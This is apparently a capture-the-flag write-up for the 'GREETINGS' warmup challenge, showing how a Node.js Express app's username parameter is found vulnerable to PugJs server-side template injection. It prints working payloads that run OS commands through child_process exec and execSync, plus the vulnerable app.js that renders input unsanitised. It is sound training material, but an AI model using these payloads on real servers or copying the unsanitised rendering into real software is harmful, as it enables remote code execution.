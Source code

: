 # GREETINGS

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @siunam
- 234 solves / 50 points
- Author: @skyv3il
- Difficulty: Warmup
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Welcome to our ctf! Hope you enjoy it! Have fun

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804194303.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804194317.png)

In here, we can submit a form with our name.

Let's try to submit a dummy name and see what will happen:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804194436.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804194450.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804194642.png)

When we clicked the "Submit" button, it'll send a GET request to `/result` with GET parameter `username`.

In the server's response from Burp Suite, we can see there's a response header called `X-Powered-By`, and its value is `Express`.

With that said, this web application is written in **JavaScript** with **[Node.js](https://nodejs.org/en)** JavaScript runtime and **[Express.js](https://expressjs.com/)** web application framework.

Now, since **our user input is being reflected on the response**, we should think about why the application did this.

In modern days of web application, the HTML contents are **dynamically generated**. To achieve this, there's a technology called "**Server-side templating**".

A quick Google search about vulnerabilities in server-side templating, we'll see a type of vulnerability called "**Server-Side Template Injection**", or **SSTI** for short.

In [HackTricks about SSTI's tips and tricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), we'll see how we can test for SSTI vulnerability and learn different template engine's SSTI payloads.

After trying different Node.js based template engine's SSTI payloads, we see that template engine [PugJs](https://pugjs.org/api/getting-started.html) works:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804202144.png)

In PugJs, the template literal is `#{}`. In our case, we can try to make the server render the template `#{7*7}` to check if the server renders `49`. ($ 7 * 7 = 49 $)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804202545.png)

Nice! The server indeed rendered our template and returned `49`!

> Note: The `%23` is URL encoded `#`. If we don't URL encode it, the `{7*7}` part will not send to the server, because `#` is the [URI fragment](https://en.wikipedia.org/wiki/URI_fragment).

## Exploitation

Armed with the above information, we can confirm that this web application is vulnerable to **PugJs SSTI**!

In [HackTricks's PugJs SSTI payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs), we can achieve Remote Code Execution (RCE) via the following payload:

```pug
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}
```

I won't go into the details of this payload, but it basically loads the [`child_process`](https://nodejs.org/api/child_process.html) Node.js module and uses function [`exec`](https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback) to execute OS commands.

However, if we send the request with the above payload, it won't display the executed OS command result:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804203958.png)

This is because the above payload is a function and it didn't return anything.

To fix this, we can simply remove the function syntax and variable declaration:

```pug
#{global.process.mainModule.constructor._load("child_process").exec('id')}
```

Now send the new payload again:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804205904.png)

This time it returned `[object Object]`!

Why? This is because the `exec` function is asynchronous.

To solve this, we can change the `exec` function to [`execSync`](https://nodejs.org/api/child_process.html#child_processexecsynccommand-options), which is a synchronous function:

```pug
#{global.process.mainModule.constructor._load("child_process").execSync('id')}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804210143.png)

Nice! Now we can find where's the flag file path and read its content!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804210224.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804210243.png)

- **Flag: `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`**

If you're curious the implementation of this vulnerable web application, we can read the source code file `app.js`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804210545.png)

**`app.js`:**
```javascript
const express = require('express');
const pug = require('pug');

const app = express();
const port = 8000;

app.set('view engine', 'pug');
app.set('views', './views');

app.get('/', (req, res) => {
    res.render('index');
});

app.get('/result', (req, res) => {
    // Get the username from the query string
    const username = req.query.username || 'Guest';

    // Vulnerable Implementation
    const templateString = `
doctype html
html(lang="en")
  head
    meta(charset="UTF-8")
    meta(name="viewport" content="width=device-width, initial-scale=1.0")
    title Result
    style.
      [...CSS stuff...]
  body
    .container
      h1 Welcome ${username}!
      p Give me a username and I will say hello to you.
    `;

    // Render the template without compiling
    const output = pug.render(templateString);

    // Send the rendered HTML as the response
    res.send(output);
});

app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

As you can see, GET route (Endpoint) `/result` retrieves our `username` GET parameter's value, and directly renders the `username`'s value without any sanitization whatsoever. Therefore, this route is vulnerable to PugJs SSTI. 

## Conclusion

What we've learned:

1. PugJs Server-Side Template Injection (SSTI)